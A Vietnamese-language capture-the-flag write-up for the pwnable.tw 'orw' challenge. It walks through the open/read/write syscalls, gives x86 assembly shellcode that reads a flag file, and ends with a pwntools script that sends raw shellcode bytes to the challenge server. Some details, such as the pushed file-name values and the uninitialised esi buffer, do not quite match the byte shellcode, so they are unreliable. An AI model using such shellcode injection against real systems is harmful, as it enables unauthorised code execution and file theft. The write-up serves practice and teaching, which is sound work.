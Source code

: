 # orw

### Hint

>Read the flag from /home/orw/flag.
>
>Only open read write syscall are allowed to use.

Oke giờ là việc viết shell code: [more](https://www.tutorialspoint.com/assembly_programming/assembly_file_management.htm)

### sys_open():

* eax = 0x5
* ebx: filename. Ta sẽ push tên file vào stack và gán ebx = esp
* ecx: access mode: read-only (0), write-only (1), read-write (2). Ta chỉ cần đọc file nên ecx = 0 là đủ
* edx: file permission. Ta không cần quan tâm, cho edx = 0
* sys_open() sẽ trả về file desciptor, lưu vào thanh ghi eax.

### sys_read():

* eax = 0x3
* ebx: file descriptor của file cần mở. Chính là giá trị trả về từ hàm sys_open() bên trên đã được lưu vào thanh ghi eax. Nên ebx = eax
* ecx: con trỏ trỏ đến thanh ghi chứa chuỗi đọc được. Ta chọn bừa 1 thanh ghi nào đó: ecx = esi
* edx: số byte đọc từ file. Cứ việc cho edx lớn: edx = 0x100
* sys_read() sẽ trả về số kí tự thật sự được đọc, lưu vào thanh ghi eax

### sys_write():

* eax = 0x4
* ebx: file descriptor. Ta cần ghi ra màn hình nên ebx = 0x1 (fd của stdout)
* ecx: con trỏ trỏ đến thanh ghi chứa chuỗi cần ghi. Lúc nãy ta đã lưu vào thanh ghi esi vậy nên ecx = esi
* edx: số byte cần ghi. Chính là giá trị trả về của sys_read(). edx = eax
* sys_write() sẽ trả về số kí tự thật sự được ghi.

```python
>>> import binascii
>>> binascii.hexlify(b'/home/orw/flag/\x00\x00'[::-1])
b'00002f67616c662f77726f2f656d6f682f'
```

### Shellcode

```python
push 0x00006761
push 0x6c662f77
push 0x726f2f65
push 0x6d6f682f

mov ebx,esp
xor ecx,ecx
xor edx,edx
mov eax,0x05
int 0x80

mov ebx,eax
mov ecx,esi
mov edx,0x100
mov eax,0x03
int 0x80

mov ebx,0x1
mov ecx,esi
mov edx,eax
mov eax,0x04
int 0x80

```

### Exploit

```python
from pwn import *
r = remote("chall.pwnable.tw",10001)

shellcode = b"\x6A\x00\x68\x66\x6C\x61\x67\x68\x6F\x72\x77\x2F\x68\x6F\x6D\x65\x2F\x68\x2F\x2F\x2F\x68\x31\xC9\x31\xC0\x89\xE3\xB8\x05\x00\x00\x00\xCD\x80\xB8\x03\x00\x00\x00\x89\xC3\x89\xE1\xBA\x40\x00\x00\x00\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xCD\x80"

r.sendline(shellcode)
print(r.recvuntil(b"shellcode:"))
r.interactive()

```